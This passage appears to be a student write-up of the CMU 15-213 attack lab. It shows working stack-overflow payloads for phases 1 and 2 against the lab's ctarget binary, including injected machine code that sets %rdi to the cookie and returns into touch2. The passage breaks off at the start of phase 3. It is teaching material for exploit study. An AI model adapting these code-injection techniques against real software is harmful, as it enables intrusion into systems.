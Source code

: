 ```
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 C0 17 40 00 00 00 00 00 
```
### phase 2

The second injection is a bit difficult. Function touch2 receive an argument and have an equality verification as the c code shows below. In our injection code, we have to fisrt store the argument value (our cookie) onto the stack and pass it to register %rdi as the first argument of touch2.

```c++
void touch2(unsigned val)
{
vlevel = 2; /* Part of validation protocol */
if (val == cookie) {
printf("Touch2!: You called touch2(0x%.8x)\n", val);
validate(2);
} else {
printf("Misfire: You called touch2(0x%.8x)\n", val);
fail(2);
 }
 exit(0);
 }
```
Let's look at the solution. (exploit2/exploit2.txt)
```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
a8 dc 61 55 00 00 00 00
48 c7 c7 fa 97 b9 59 	/* mov    $0x59b997fa,%rdi */  
68 ec 17 40 00       	/* pushq  $0x4017ec */
c3 90 90 90           /* retq   */
```
The 6th line is not touch2's address because we have to execute some code, so we let the program jump to the 7th line, which is the byte presentation of assmembly code.

```
mov    $0x59b997fa,%rdi 
pushq  $0x4017ec 
retq   
```
so you have to get the address of %rsp (0x5561dca0) first and do some calculation.
### phase 3
The third injection is more complicated. Here is the c code.
```c++
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
char cbuf[110];
/* Make position of check string unpredictable */
char *s = cbuf + random() % 100;
sprintf(s, "%.8x", val);
return strncmp(sval, s, 9) == 0;
}


 void touch3(char *sval)
```